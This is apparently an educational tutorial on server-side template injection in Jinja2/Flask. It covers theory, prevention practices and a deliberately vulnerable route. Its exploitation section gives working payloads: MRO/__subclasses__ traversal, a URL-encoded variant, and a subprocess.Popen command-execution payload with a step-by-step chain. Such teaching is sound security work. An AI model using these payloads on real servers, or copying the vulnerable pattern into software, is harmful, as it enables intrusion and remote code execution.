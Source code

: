 ```yaml
---
title: SSTI in Jinja2 (Python)
date: 2024-11-16
---
```


# SSTI in Jinja2 (Python)

## Theory

### What is Jinja2?

Jinja2 is a popular template engine for Python, widely used in frameworks like Flask. It allows developers to build HTML
pages by combining static layout elements with dynamic data, promoting the separation of application logic and
presentation. Jinja2 templates are written in a syntax similar to Django's template language, allowing variables, loops,
and even conditional logic within templates.

When a Jinja2 template is rendered, it processes and substitutes placeholders with actual values from the application
data. For example:

```html
<!-- Example Template: greeting.html -->
<p>Hello, {{ username }}!</p>
```

In this template, the <span v-pre>`{{ username }}`</span> variable is replaced with the actual user's name during
rendering, creating a personalized greeting.

### How Jinja2 Works: Method Resolution Order (MRO)

Jinja2 uses Python's *Method Resolution Order (MRO)* for attribute and method lookups within templates. MRO is the order
in which Python searches classes and methods when resolving calls. This is essential for understanding SSTI exploitation
because attackers can potentially traverse the MRO hierarchy to find and execute hidden or private attributes and
methods.

In Jinja2, when a variable or method is referenced in <span v-pre>`{{ }}`</span>, Jinja2 will evaluate and return its
value. This allows direct access to Python objects and can be dangerous if an attacker gains control over the template
context, as they could potentially access sensitive internal functions and methods via MRO.

### Exploiting SSTI in Jinja2

In Jinja2, SSTI vulnerabilities occur if user input is embedded directly into the template without sanitization. For
example, consider the following Flask code snippet:

```python
from flask import Flask, request, render_template_string

app = Flask(__name__)

@app.route('/')
def greet():
    user_input = request.args.get('name', 'Guest')
    template = f"Hello, {user_input}!"
    return render_template_string(template)

if __name__ == '__main__':
    app.run()
```

If a user inputs <span v-pre>`{{ 7 * 7 }}`</span>, Jinja2 will interpret and execute this expression, returning `49`.
With further testing, an attacker could exploit this vulnerability to execute arbitrary code by accessing Python's
built-in functions via MRO.

For instance, injecting <span v-pre>`{{ ''.__class__.__mro__[1].__subclasses__() }}`</span> can access Python's internal
methods and classes. The attacker can locate dangerous classes, such as those for OS commands, opening doors to command
injection.

### Preventing SSTI in Jinja2

To prevent SSTI in Jinja2, consider the following best practices:

1. **Avoid Directly Embedding User Input**: Never directly embed user input in templates. Instead, pass input as
   variables, where Jinja2 automatically escapes special characters, preventing direct code execution.

   ```python
   # Secure template rendering
   @app.route('/')
   def greet():
       user_input = request.args.get('name', 'Guest')
       return render_template_string("Hello, {{ name }}!", name=user_input)
   ```

2. **Use HTML Escaping**: Ensure that any untrusted data used in templates is escaped, preventing the rendering of
   executable code.

3. **Implement Strict Validation**: Validate user input rigorously, ensuring it doesn't contain executable code.

4. **Limit Template Features**: If possible, restrict template features that allow execution of logic within the
   template, reducing the risk of SSTI vulnerabilities.

## Exploitation

### Basic SSTI Exploit in Jinja2

Consider the vulnerable Flask application shown above. By inputting <span v-pre>`{{ 7 * 7 }}`</span>, the template
engine evaluates this expression and renders it as `49`, confirming the presence of an SSTI vulnerability.

### Accessing System Commands

To explore the full extent of the vulnerability, let's try to access sensitive system methods. By injecting
<span v-pre>`{{ ''.__class__.__mro__[1].__subclasses__() }}`</span>, we can get a list of all classes loaded in memory.

::: info
Using the above payload may not work if you don't url encode the payload. For example, the payload should be:
```
%7B%7B%27%27%2E%5F%5F%63%6C%61%73%73%5F%5F%2E%5F%5F%6D%72%6F%5F%5F%5B%31%5D%2E%5F%5F%73%75%62%63%6C%61%73%73%65%73%5F%5F%28%29%7D%7D
```
instead of <span v-pre>`{{ ''.__class__.__mro__[1].__subclasses__() }}`</span>.
:::

1. **Identify OS Command Class**: From the list of subclasses, identify the `subprocess.Popen` class, which can execute
   OS commands.

2. **Execute a Command**: Using `subprocess.Popen`, we can try to run commands. For example, the payload below attempts
   to execute a simple `ls` command to list files in the directory:

   ```python
   {{ ''.__class__.__mro__[1].__subclasses__()[59]('ls', shell=True, stdout=-1).communicate() }}
   ```

   Replace `[59]` with the actual index for `subprocess.Popen` in the class list if different. This command will list
   all files in the server's directory, a clear sign of command execution.

### Example Exploitation Chain

1. **Test the Vulnerability**: Start with a basic payload like <span v-pre>`{{ 7 * 7 }}`</span> to verify SSTI.
2. **Access MRO**: Inject <span v-pre>`{{ ''.__class__.__mro__[1].__subclasses__() }}`</span> to get a list of classes.
3. **Locate Command Execution**: Identify `subprocess.Popen` or an equivalent class.
4. **Execute Commands**: Use the class to run arbitrary OS commands.

### Practical Prevention Measures

- **Input Sanitization**: Always sanitize user input before incorporating it into templates.
- **Use Secure Template Syntax**: Avoid direct embedding by passing data as context variables.
- **Escaping**: Ensure all potentially unsafe data is HTML-escaped, preventing code execution in templates.

## CTF Challenges

- [Spookifier - Hack The Box](/ctf/hack-the-box/challenges/web/spookifier.md)

## References

- [Jinja2 Documentation](https://jinja.palletsprojects.com/en/stable/)
- [HackTricks - Jinja2 ssti](https://book.hacktricks.xyz/pentesting-web/ssti-server-side-template-injection/jinja2-ssti)
- [PortSwigger - Server-Side Template Injection](https://portswigger.net/web-security/server-side-template-injection)
- [Onsecurity](https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/)
